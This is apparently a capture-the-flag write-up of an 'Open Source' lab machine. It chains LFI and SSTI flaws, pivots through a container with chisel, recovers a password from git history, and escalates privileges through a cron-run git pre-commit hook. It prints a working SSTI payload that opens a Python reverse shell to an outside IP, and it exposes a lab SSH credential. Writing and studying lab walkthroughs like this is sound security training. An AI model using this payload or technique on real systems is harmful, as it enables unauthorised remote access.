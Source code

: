 # Open Source

![OpenSource.png](Open%20Source%20/OpenSource.png)

**May 21, 2022**

The code has a capacity to uploads codes and download the application source code: 

![Untitled](Open%20Source%20/Untitled.png)

There are two vulnerabilities, LFI on “/uploads” route and SSTI on “/” route.

![Untitled](Open%20Source%20/Untitled%201.png)

Exploitation of local file inclusion:

![Untitled](Open%20Source%20/Untitled%202.png)

The trick is upload an SSTI malicious payload in “success.html” file obtained from the source code.

![Untitled](Open%20Source%20/Untitled%203.png)

Payload used:

```python
{{"".__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('python -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.47\",3301));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")\'')}}
```

We are inside a container, doing some tests we found an port on the address “172.16.0.1”.

![Untitled](Open%20Source%20/Untitled%204.png)

Found port.

![Untitled](Open%20Source%20/Untitled%205.png)

Pivoting with chisel socks.

![Untitled](Open%20Source%20/Untitled%206.png)

Chisel socket:

![Untitled](Open%20Source%20/Untitled%207.png)

Proxy chains configuration to work with chisel:

![Untitled](Open%20Source%20/Untitled%208.png)

Run an nmap with proxychains to scan the network and find the GITEA running on the address.

![Untitled](Open%20Source%20/Untitled%209.png)

There are some users:

![Untitled](Open%20Source%20/Untitled%2010.png)

The source code downloaded at the beginning has an git histors:

![Untitled](Open%20Source%20/Untitled%2011.png)

Select the tree:

![Untitled](Open%20Source%20/Untitled%2012.png)

A different file on the directory is the “.vscode” file.

![Untitled](Open%20Source%20/Untitled%2013.png)

Reading the commit we found the password of the dev user:

![Untitled](Open%20Source%20/Untitled%2014.png)

This credentials can be used to login on SSH.

```python
dev01
Soulless_Developer#2022
```

The machine has some crontab commands running every minute, we can craft a exploit using the git hooks inside the .git directory. 

![Untitled](Open%20Source%20/Untitled%2015.png)

### Git hooks webpage

[https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks)

IPPSEC video reference: [https://youtu.be/Fxq6oZ-H-xI?t=1574](https://youtu.be/Fxq6oZ-H-xI?t=1574)

In this example we used the pre-commit hook, that is executed when the crontab run the commit command:

![Untitled](Open%20Source%20/Untitled%2016.png)

### POC

Pre-commit file inside the hook folder:

![Untitled](Open%20Source%20/Untitled%2017.png)

Return after run:

![Untitled](Open%20Source%20/Untitled%2018.png)

With this behavior a reverse shell can be spawned.